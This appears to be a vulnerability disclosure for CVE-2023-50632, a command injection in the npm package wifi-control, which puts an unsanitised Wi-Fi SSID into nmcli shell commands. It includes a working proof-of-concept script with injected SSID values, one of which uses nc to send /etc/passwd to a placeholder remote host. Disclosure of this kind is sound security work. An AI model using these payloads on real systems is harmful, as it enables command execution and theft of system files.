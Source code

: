 # Command Injection in wifi-control
## Basic information
Vulnerability Author: YorkLee(liyue2021@hust.edu.cn)

Vulnerable npm package: wifi-control

Npm url: https://www.npmjs.com/package/wifi-control

Github url: https://github.com/msolters/wifi-control-node

Vulnerable version: <= 2.0.1

CVE: CVE-2023-50632

The response of CVE Assignment Team is in [Re_ [scr1570159] your CVE ID requests.eml](https://github.com/sdpyly/bug_report_wifi-control/blob/master/Re_%20%5Bscr1570159%5D%20your%20CVE%20ID%20requests.eml)

Vulnerable file: lib/linux.js
```js
connectToAP: function(_ap) {
      var COMMANDS, _msg, com, connectToAPChain, error, error1, error2, i, len, ssidExist, stdout;
      COMMANDS = {
        "delete": "nmcli connection delete \"" + _ap.ssid + "\"",
        connect: "nmcli device wifi connect \"" + _ap.ssid + "\""
      };
      if (_ap.password.length) {
        COMMANDS.connect += " password \"" + _ap.password + "\"";
      }
      try {
        stdout = this.execSync("nmcli connection show \"" + _ap.ssid + "\"");
        if (stdout.length) {
          ssidExist = true;
        }
      } catch (error1) {
        error = error1;
        ssidExist = false;
      }
      ...
}
```
The vulnerability is in lib/linux.js, line 170. _ap.ssid is not checked.

## Payload
main.js:
```js
const WiFiControl = require('wifi-control');
const iface = WiFiControl.findInterface();
WiFiControl.connectToAP(
  {
    ssid: '" || touch hack.txt && "',
    password: "mypassword",
  },
  (err, res) => {
    console.log(res);
  }
);

// payload1: " || touch hack.txt && "
// payload2: " || nc {hostIP} {port} < /etc/passwd &&"
```
Payload1 is used to create a hack. txt file.

Payload2 is used to transfer files to remote servers.

Payload located in ssid can execute almost all commands.
## Exploit
Environment: Ubuntu

Attention: ensure that your wireless network device name contains "wlan".

![Alt text](image.png)

You just run following commands to exploit:
```
npm i
npm start
```